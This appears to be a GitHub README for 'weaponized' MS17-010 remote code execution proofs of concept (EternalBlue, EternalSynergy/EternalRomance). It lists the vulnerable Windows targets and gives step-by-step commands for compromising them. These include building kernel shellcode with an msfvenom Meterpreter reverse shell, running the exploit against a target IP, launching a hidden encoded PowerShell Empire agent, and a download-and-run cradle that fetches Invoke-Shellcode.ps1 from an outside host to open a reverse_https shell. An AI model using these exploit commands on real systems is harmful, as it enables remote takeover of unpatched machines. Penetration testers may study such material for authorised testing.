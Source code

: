 # MS17-010 RCE PoC's

All credits go out to [worawit](https://github.com/worawit/MS17-010). I've just added some usage clarifications and weaponized them to be more usable for pentesting purposes.

## Eternalblue

Eternalblue only requires access to IPC$ to exploit a target while other exploits require access to a named pipe as well. Eternalblue thus works on all versions of Windows that allow anonymous access to IPC$ (Windows 7 and Windows 2008, or later version explicitly configured to allow anonymous access). Keep in mind that Eternalblue has a higher change of crashing a target than Eternalsynergy - Eternalromance.

### Compatible targets

**eternalblue_exploit7:**

- Windows 7 SP1 x64
- Windows 2008 R2 SP1 x64
- Windows 7 SP1 x86
- Windows 2008 SP1 x86

**eternalblue_exploit8:**

- Windows 2012 R2 x64
- Windows 8.1 x64

### Exploit usage

Example for spawning a meterpreter session on an x64 machine:

1. `nasm -f bin eternalblue_kshellcode_x64.asm`
2. `msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o meterpreter_msf.bin EXITFUNC=thread LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT>`
3. `cat eternalblue_kshellcode_x64 meterpreter_msf.bin > sc_x64.bin`
4. `python eternalblue_exploit7.py <TARGET_IP> shellcode/sc_x64.bin`


## Eternalsynergy - Eternalromance

This exploit exploits the same bug used by NSA's Eternalromance and Eternalsynergy. A named pipe is needed, meaning on more modern (default) configurations you will need credentials in order for the exploit to work. In most cases, domain user credentials will suffice. 

### Compatible targets

x64 architecture only

- Windows 2016 x64
- Windows 2012 R2 x64
- Windows 8.1 x64
- Windows 2008 R2 SP1 x64
- Windows 7 SP1 x64

### Usage

Usage: 

`python eternalsynergy_romance.py <target_ip_address> <named_pipe> <DOMAIN\username> <password> <command_to_execute>`

Example for spawning an Empire agent:

`python eternalsynergy_romance.py 192.168.178.2 netlogon WORKGROUP\testuser !Password123 "powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAUwB0AEUAbQAuAE4AZQBUAC..."`

Example for spawning a meterpreter session:

`python eternalsynergy_romance.py 192.168.178.2 netlogon "powershell -Exec ByPass -NoP -noexit \"IEX (New-Object Net.WebClient).DownloadString('http://192.168.178.3/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.178.3 -Lport 8443 -Force \""`

(I typically grab Invoke-Shellcode.ps1 from http://bit.ly/2cuWJTF, but that only works when the target has an unfiltered outbound connection.)
